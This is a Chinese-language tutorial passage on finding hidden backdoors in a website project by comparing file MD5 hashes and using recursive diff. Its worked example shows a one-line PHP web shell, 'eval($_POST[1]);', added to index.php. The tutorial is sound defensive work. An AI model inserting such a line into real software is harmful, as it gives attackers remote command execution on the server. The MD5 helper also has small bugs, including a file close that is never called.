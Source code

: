 ## 排查隐藏后门：

### 1\. 文件 MD5 校验：

```plain
def md5sum(file):
    m=hashlib.md5()
    if os.path.isfile(file):
        f=open(file,'rb')
        for line in f:
            m.update(line)
        f.close
    else:
        m.update(file)
    return (m.hexdigest())
```

对比前后文件哈希，找到修改的文件

### 2\. diff 命令寻找差异文件

diff 经常用来比较两个文本文件，所以可以通过一行命令快速找出两个项目文件的差异。

```plain
diff -c -a -r cms1 cms2
```

[![](assets/1705982098-f48c5a693b3560ff83bcc81f250b5eb4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121101332-accaf2d6-b802-1.png)

-   `*** 1/index.php 2024-01-21 00:57:00.115969882 +0800`：表示原始文件（旧版本）的路径和修改时间。
-   `--- html/index.php 2024-01-21 00:56:00.243088661 +0800`：表示新版本文件的路径和修改时间。
-   `***************`：分隔符，标记接下来的内容是两版文件之间的不同之处。
-   `*** 1,4 ****`：表示在原始文件中从第 1 行到第 4 行的内容。
-   `--- 1,5 ----`：表示在新版本文件中从第 1 行到第 5 行的内容。

```plain
+ eval($_POST[1]);
这一行前带有加号 "+"，意味着这是在新版本 html/index.php 文件中新添加的一行代码
```
